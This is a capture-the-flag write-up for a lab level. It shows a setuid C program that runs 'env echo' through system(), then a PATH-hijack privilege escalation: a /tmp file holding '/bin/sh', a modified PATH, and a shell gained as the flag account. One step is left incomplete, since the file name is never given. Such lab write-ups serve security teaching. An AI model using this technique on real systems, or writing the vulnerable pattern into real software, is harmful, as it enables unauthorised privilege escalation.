 # Level 01
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in /home/flag01.

## Source code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Writeup

And write this code inside:

```bash
/bin/sh
```

Now change the `$PATH` variabile adding `/tmp` at the start:

```bash
export PATH=/tmp:$PATH
```

Go to `/home/flag01` directory and run `./flag01` binary to get a shell with flag01 account, verified by writing `id` command:

```bash
level01@nebula:/home/flag01$ ./flag01 
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```

Now we can run `getflag` command:

```bash
sh-4.2$ getflag
You have successfully executed getflag on a target account
```